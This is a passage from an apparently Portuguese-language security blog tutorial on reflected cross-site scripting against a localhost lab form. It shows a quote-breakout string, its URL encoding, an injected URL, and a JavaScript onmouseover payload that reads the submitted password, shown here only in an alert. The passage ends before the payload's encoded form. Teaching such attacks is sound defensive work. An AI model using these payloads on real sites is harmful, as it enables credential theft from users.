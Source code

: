 1. A URL é preenchida com os dados do formulário (algo inconcebível no que diz respeito a segurança, mas considere um exemplo).
2. O campo `email` do formulário fica com ser `value` preenchido com o e-mail informado.

![Campo preenchido](/img/posts/2023-06-21-beyond-the-alert-19.png)

Isso significa que, se o campo e-mail não tiver um tratamento de entrada, é possível preenchê-lo com aspas, para sair do contexto `value` e a partir daí entrar nas propriedades do campo `input`.

Por exemplo, se pegarmos a seguinte *string*:

```
" teste="h41stur
```

Encodá-lo em URL encode:

```
%22%20teste%3D%22h41stur
```

E injetá-lo na URL no parâmetro `email` com a seguinte URL:

- [http://localhost/07/?email=%22%20teste%3D%22h41stur&password=](http://localhost/07/?email=%22%20teste%3D%22h41stur&password=)

Ao checarmos o código HTML da página, veremos que saímos do escopo `value` e criamos uma nova propriedade.

![Contexto alterado](/img/posts/2023-06-21-beyond-the-alert-20.png)

Sabendo desta falha, podemos criar um *event listener* dentro de um *event handler attribute* para ser injetado no elemento `input` da seguinte forma:

```javascript
" onmouseover="
	document.forms[0].onsubmit = function demo () {
		var pass = document.forms[0].elements[1].value;
		alert(pass);
	}
```

Convertendo para *URL Encode*:
